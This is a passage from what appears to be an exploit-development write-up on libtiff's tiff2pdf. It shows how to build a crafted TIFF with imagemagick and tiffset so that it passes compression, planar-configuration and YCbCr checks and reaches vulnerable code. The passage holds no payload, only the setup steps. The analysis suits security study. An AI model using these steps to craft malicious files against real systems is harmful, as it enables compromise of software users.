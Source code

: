 There are 2 methods to deal with this:
1. We can give the compression schemes other than the ones above, as they return from the function and we do not want that. It is because the vulnerable code comes after the `if` condition. 
2. We can give the compression scheme as `None`. It will pass the condition, and also the input `TIFF` file will contain raw uncompressed bytes, that will make analysis easier.
We will choose option 2 as it will make our lives easier later on. 

Now, lets make a TIFF file using `imagemagick` and then change its properties. We also need to set bits/sample to 8.

```bash
convert -depth 8 -size 100x100 xc:white -compress None sample.tif
```

Run `./tiffinfo` on `sample.tif` and we get:

```bash
TIFF Directory at offset 0x132 (306)
  Image Width: 100 Image Length: 100
  Bits/Sample: 8
  Compression Scheme: None
  Photometric Interpretation: min-is-black
  FillOrder: msb-to-lsb
  Orientation: row 0 top, col 0 lhs
  Samples/Pixel: 1
  Rows/Strip: 100
  Planar Configuration: single image plane
  Page Number: 0-1
  White Point: 0.3127-0.329
  PrimaryChromaticities: 0.640000,0.330000,0.300000,0.600000,0.150000,0.060000
  Predictor: horizontal differencing 2 (0x2)
```

This image will not let anything execute in body of `if` condition. 

Next we have the statement:

```c
k = checkMultiply64(TIFFScanlineSize(input), t2p->tiff_length, t2p);
```

We analyze the `TIFFScanlineSize` function which is in `tif_strip.c`.

`TIFFScanlineSize` in turn calls `TIFFScanlineSize64`. There are few checks that we need to pass.

```c
if (td->td_planarconfig==PLANARCONFIG_CONTIG)
{
	if ((td->td_photometric==PHOTOMETRIC_YCBCR)&&
		(td->td_samplesperpixel==3)&&
		(!isUpSampled(tif)))
		{

```

We set the samples per pixel to 3. 

```bash
tiffset -s 277 3 sample.tif
```
